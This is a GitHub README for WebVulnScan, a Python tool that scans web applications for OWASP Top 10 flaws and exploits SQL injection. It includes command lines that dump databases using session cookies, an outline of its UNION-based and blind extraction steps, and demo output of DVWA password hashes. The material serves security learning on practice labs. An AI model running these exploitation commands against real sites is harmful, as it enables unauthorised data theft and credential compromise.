




# WebVulnScan


A modular web application vulnerability scanner and exploitation framework built in Python. Detects and exploits **OWASP Top 10** vulnerabilities — from reconnaissance to full database extraction.

Built for learning offensive security. Tested against DVWA, Juice Shop, and WebGoat.

---

## Features

- **7 vulnerability scanner modules** covering headers, SQLi, XSS, command injection, directory enumeration, and info disclosure
- **SQL injection exploitation** — extracts databases, tables, columns, and row data via UNION-based and blind techniques
- **Web crawler** — spiders the target to discover all endpoints before scanning
- **Blind SQL injection** — time-based delay detection with multi-round confirmation
- **HTML reports** — styled interactive reports with risk scoring and expandable findings
- **Authenticated scanning** — pass session cookies to scan behind login pages
- **Modular architecture** — add new scanner modules in minutes

---

## Quick Start
```bash
git clone https://github.com/krish20-bot/webvulnscan.git
cd webvulnscan
pip install -r requirements.txt

# Basic scan
python3 main.py https://target.com -o report.json --html report.html

# Exploit SQL injection and dump the database
python3 main.py "https://target.com/page?id=1" -c "PHPSESSID=abc; security=low" --exploit
```

> **Legal Notice:** Only scan websites you own or have explicit written permission to test.

---

## What It Detects (and Exploits)

| Module | What It Does | Severity |
|--------|-------------|----------|
| **Security Headers** | Missing HSTS, CSP, X-Frame-Options, insecure cookies, info-leaking headers | HIGH — LOW |
| **SQL Injection** | Error-based detection across MySQL, PostgreSQL, SQL Server, Oracle, SQLite | HIGH |
| **Blind SQL Injection** | Time-based SLEEP/WAITFOR detection with baseline comparison | HIGH |
| **SQLi Exploitation** | Full data extraction: DB version, tables, columns, row dumps | HIGH |
| **Cross-Site Scripting** | Reflected XSS via script tags, event handlers, SVG payloads | HIGH |
| **Command Injection** | OS command injection via semicolons, pipes, backticks, subshells | HIGH |
| **Directory Enumeration** | Exposed admin panels, .env, .git/HEAD, backups, API docs, debug endpoints | HIGH — LOW |
| **Information Disclosure** | Internal IPs, emails, stack traces, version numbers, HTTP without HTTPS | MEDIUM — LOW |

---

## SQLi Exploitation Demo
```
  [EXPLOIT] Extracting data via 'id'
    [*] Finding number of columns...
    [+] Columns found: 2
    [*] Finding injectable column...
    [+] Injectable column: position 1
    [*] Detecting database type...
    [+] Database: 10.1.26-MariaDB-0+deb9u1
    [+] Current database: dvwa
    [+] Current user: app@localhost
    [+] Tables: guestbook, users

    [*] Auto-dumping: users
    [+] Columns in 'users': user_id, first_name, last_name, user, password, avatar
    [+] Extracted 5 rows

    +--- users ---
    | user_id | first_name | last_name | user    | password                         |
    | --------+------------+-----------+---------+----------------------------------|
    | 1       | admin      | admin     | admin   | 5f4dcc3b5aa765d61d8327deb882cf99 |
    | 2       | Gordon     | Brown     | gordonb | e99a18c428cb38d5f260853678922e03 |
    | 3       | Hack       | Me        | 1337    | 8d3533d75ae2c3966d7e0d4fcc69216b |
    | 4       | Pablo      | Picasso   | pablo   | 0d107d09f5bbe40cade3de5c71e9e9b7 |
    | 5       | Bob        | Smith     | smithy  | 5f4dcc3b5aa765d61d8327deb882cf99 |
```

---

## Screenshots

### Terminal Output


### HTML Report — Risk Score & Severity


### HTML Report — Expanded Findings


### Crawler Mode


---

## Usage

### Basic Commands
```bash
# Simple scan
python3 main.py https://target.com

# Scan with reports
python3 main.py https://target.com -o report.json --html report.html

# Authenticated scan
python3 main.py "https://target.com/page?id=1" -c "PHPSESSID=abc123; security=low"
```

### Advanced Features
```bash
# Crawl entire site then scan all endpoints
python3 main.py https://target.com --crawl --html full_scan.html

# Blind SQL injection detection
python3 main.py "https://target.com/page?id=1" --blind

# Exploit SQLi — auto-dump sensitive tables
python3 main.py "https://target.com/page?id=1" -c "COOKIE=value" --exploit

# Exploit SQLi — dump a specific table
python3 main.py "https://target.com/page?id=1" -c "COOKIE=value" --exploit --dump users

# Full recon: crawl + scan + blind + exploit
python3 main.py https://target.com -c "COOKIE=value" --crawl --blind --exploit --html report.html
```

### All CLI Options

| Flag | Description |
|------|-------------|
| `url` | Target URL to scan (required) |
| `-o, --output` | Save JSON report to file |
| `--html` | Save styled HTML report to file |
| `-c, --cookie` | Cookie string for authenticated scanning |
| `--crawl` | Spider the site to discover endpoints before scanning |
| `--max-pages N` | Maximum pages to crawl (default: 30) |
| `--blind` | Enable time-based blind SQL injection detection |
| `--exploit` | Exploit confirmed SQLi to extract database contents |
| `--dump TABLE` | Dump a specific table (use with --exploit) |

---

## Architecture
```
webvulnscan/
├── main.py                          # CLI entry point & scan orchestrator
├── crawler.py                       # BFS web spider — discovers URLs & forms
├── sqli_exploit.py                  # SQLi exploitation (UNION + blind)
├── html_report.py                   # Styled HTML report generator
├── report.py                        # JSON report with risk scoring
├── requirements.txt
├── scanners/
│   ├── __init__.py                  # BaseScanner class
│   ├── header_scanner.py            # HTTP security headers
│   ├── sqli_scanner.py              # SQL injection detection (error-based)
│   ├── blind_sqli_scanner.py        # Blind SQLi (time-based)
│   ├── xss_scanner.py               # Reflected XSS
│   ├── cmdi_scanner.py              # OS command injection
│   ├── directory_scanner.py         # Sensitive file/directory probing
│   └── info_disclosure_scanner.py   # Data leak detection
├── screenshots/
├── examples/
│   └── sample_report.json
├── docs/
│   └── EXTENDING.md
├── .gitignore
├── LICENSE
└── README.md
```

### How It Works

1. **Scan** — Each module runs independently against the target
2. **Crawl** (optional) — BFS spider discovers pages, then scans each one
3. **Exploit** (optional) — Confirmed SQLi is exploited to extract database contents
4. **Report** — Results are deduplicated, scored, and output as terminal/JSON/HTML

### How the SQLi Exploiter Works

1. **Column count** — UNION SELECT with increasing NULLs until response matches baseline
2. **Injectable position** — Tests each column with hex-encoded markers
3. **DBMS fingerprint** — Extracts version() to identify the database
4. **Enumeration** — Lists databases, tables, and columns via information_schema
5. **Data dump** — Extracts rows from sensitive tables (users, flags, secrets)
6. **Fallback** — Blind boolean-based extraction via binary search if UNION fails

---

## Practice Targets

| App | Install | What to Test |
|-----|---------|--------------|
| [DVWA](https://github.com/digininja/DVWA) | `docker run --rm -p 8080:80 vulnerables/web-dvwa` | SQLi, XSS, command injection, exploitation |
| [Juice Shop](https://owasp.org/www-project-juice-shop/) | `docker run --rm -p 3000:3000 bkimminich/juice-shop` | Modern web vulns, API issues |
| [WebGoat](https://owasp.org/www-project-webgoat/) | `docker run --rm -p 8080:8080 webgoat/webgoat` | Guided vulnerability lessons |

---

## Contributing

1. Fork the repo
2. Create a feature branch: `git checkout -b feature/my-scanner`
3. Test against DVWA or Juice Shop
4. Submit a pull request

See [docs/EXTENDING.md](docs/EXTENDING.md) for writing custom modules.

---

## Resources

- [OWASP Top 10](https://owasp.org/www-project-top-ten/)
- [PortSwigger Web Security Academy](https://portswigger.net/web-security)
- [HackerOne Hacktivity](https://hackerone.com/hacktivity)
- [TryHackMe](https://tryhackme.com/)
- [CrackStation](https://crackstation.net/) — Online hash lookup

---

## License

MIT License. See [LICENSE](LICENSE) for details.

**Built for learning. Scan responsibly.**
